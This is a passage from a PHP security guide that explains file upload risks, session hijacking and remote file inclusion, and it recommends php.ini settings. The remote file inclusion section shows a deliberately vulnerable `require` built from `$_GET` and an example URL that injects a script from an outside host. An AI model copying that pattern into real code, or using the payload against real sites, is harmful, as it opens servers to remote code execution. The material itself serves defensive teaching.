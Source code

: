 ## Uploading Files

A lot of security breaches happen where users can upload a file on server. Make
sure you go through all the vulnerabilities of uploading files such as renaming
uploaded file, moving it to publicly unaccessible folder, checking file type
and similar. Since there are a lot of issues to check here, more information is
located in the separate FAQ:

* [How to securely upload files with PHP?](/faq/security/uploading-files/) FAQ.

## Session Hijacking

Session hijacking is an attack where attacker steals session ID of a user. Session
ID is sent to server where `$_SESSION` array gets populated based on it. Session
hijacking is possible through an XSS attack or if someone gains access to folder
on server where session data is stored.

## Remote file inclusion

Remote file inclusion attack (RFI) means that attacker can include custom scripts:

```php?start_inline=1
$page = $_GET['page'] ?? 'home'

require $page . '.php';
```

In above code `$_GET` can be set to a remote file `http://yourdomain.tld/index.php?page=http://example.com/evilscript`

Make sure you disable this in your `php.ini` unless you know what you're doing:

```ini
; Disable including remote files
allow_url_fopen = off
; Disable opening remote files for include(), require() and include_once() functions.
; If above allow_url_fopen is disabled, allow_url_include is also disabled.
allow_url_include = off
```

## PHP configuration

Always keep installed PHP version updated. You can use
[versionscan](https://github.com/psecio/versionscan) to check for possible
vulnerabilities of your PHP version. Update open source libraries and applications
and maintain web server.

Here are some of the important settings from `php.ini` that you should check out.
You can also use [iniscan](https://github.com/psecio/iniscan) to scan your
`php.ini` files for best security practices.

### Error Reporting
